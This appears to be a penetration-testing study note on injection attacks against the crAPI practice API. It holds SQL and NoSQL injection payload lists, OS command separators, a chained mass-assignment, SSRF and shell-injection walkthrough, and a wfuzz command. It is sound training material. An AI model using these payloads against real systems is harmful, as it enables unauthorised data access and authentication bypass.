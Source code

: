 # Injection Attacks  

>[Testing for Injection Vulnerabilities](https://university.apisec.ai/products/api-penetration-testing/categories/2150251361/posts/2157505668)  

## Discovering Injection Vulnerabilities  

>Fuzzing APIs is the process of sending various types of input to an endpoint to provoke an unintended response.  
>The payloads used for fuzzing include symbols, numbers, system commands, SQL queries, NoSQL queries, emojis, hexadecimal, boolean statements.  

>When reviewing API documentation, if the API is expecting a certain type of input (number, string, boolean value) send:

* Very large number
* very large string
* negative number
* string (instead of a number or boolean value)
* Random characters
* Boolean values
* Meta characters  

## SQL Injection  

```
'
''
;%00
--
-- -
""
;
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
OR 1=1

0'; select version() --+
```  

>Last payload at endpoint `http://127.0.0.1:8888/workshop/api/shop/apply_coupon`, return the version of the crAPI SQL server:  

![crapi-sql-injection-test.png](/images/crapi-sql-injection-test.png)  

## NoSQL Injection  

>List of [noSQL payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection), and sample below:  

```
$gt 
{"$gt":""}
{"$gt":-1}

$ne
{"$ne": 1}
{"$ne":""}
{"$ne":-1}
{'$ne': 1}
{'$ne':''}
{'$ne':-1}

$nin
{"$nin":1}
{"$nin":[1]}

{"$where":  "sleep(1000)"}
```  

>`$gt` is a MongoDB NoSQL query operator that selects documents that are greater than the provided value.  
>The `$ne` query operator selects documents where the value is not equal to the provided value.  
>The `$nin` operator is the `not in` operator, used to select documents where the field value is not within the specified array.  
>Many of the others in the list contain symbols that are meant to cause verbose errors.  
>Other payload samples attempt to bypassing authentication or waiting 10 seconds.  

>Enumeration of JSON POST body fields provide an error message that indicate possible noSQL:  

```JSON
{"error":"invalid character '$' after object key:value pair"}
```  

![crapi-nosql-injection-fuzzing.png](/images/crapi-nosql-injection-fuzzing.png)

>Result of fuzzing show noSQL injection, returning a shop coupon at the `/community/api/v2/coupon/validate-coupon`.  

![crapi-nosql-injection-fuzzing-result.png](/images/crapi-nosql-injection-fuzzing-result.png)  

## OS Command Injection  

>Operating system command injection attacks inject a command separator and operating system commands.  

```
|
||
&
&&
'
"
;
'"
```  

>Common Operating System Commands:  

```
ipconfig
dir
ver
whoami
ifconfig
ls
pwd
id
```

>Enumeration of endpoint to change video name, show several fields in the response for video format and conversion.  

![crapi-os-cmd-injection-enumeration.png](/images/crapi-os-cmd-injection-enumeration.png)  

```JSON
{
"id":202,
"video_name":"My Video Name",
"conversion_params":"-v codec h264",
"profileVideo":"data:image/jpeg;base64,AAAAGGZ0eXBtcDQyAAAAA snip "
}
```  

>Altering the PUT endpoint to add new field to change value indicate mass assignment vulnerability:  

```JSON
{"videoName":"My Video Name","conversion_params":"-v codec MASS ASSIGNMENT VULNERABILITY"}
```  

>Targeting the JSON parameter `conversion_params` in `PUT /identity/api/v2/user/videos/202` to find correct OS CMD inject escape and excution.  

>Once parameter conversion_params update with OS CMD payload and we get video, a 403 Forbidden response message indicate internal server on port `8080`:  

```JSON
{"message":"Thi-S endpoint S-hould be accessed only inte-Rnally. -Fine? , endpoint_url http://crapi-identity:8080/identity/api/v2/user/videos/convert_video","status":403}
```  

>need another SSRF vulnerability to trigger our payload.  
>Make a note of the URL that is given to us here.

```
http://crapi-identity:8080/identity/api/v2/user/videos/convert_video?video_id=202
```  

![crapi-mass-assignment-with-ssrf-trigger-to-exploit-os-cmd-injection-attack.png](/images/crapi-mass-assignment-with-ssrf-trigger-to-exploit-os-cmd-injection-attack.png)  

```
WOW. Look at you. Combining Mass Assignment and SSRF to exploit a hidden Shell Injection.
We're very proud. You won the game. Unfortunately, we don't actually  
allow our pentester to run arbitrary shell commands on our backend :( 
It could be very expensive and annoying to maintain it. 
Anyhow, if you host your own instance of crAPI, you can simply change the
`block_shell_injections` flag in the config file to allow real shell injections.
```  

## Fuzzing WFuzz  

```
wfuzz -z file,usr/share/wordlists/nosqli  -H "Authorization: Bearer TOKEN" -H "Content-Type: application/json" -d "{\"coupon_code\":FUZZ} http://crapi.apisec.ai/community/api/v2/coupon/validate-coupon
```  

 


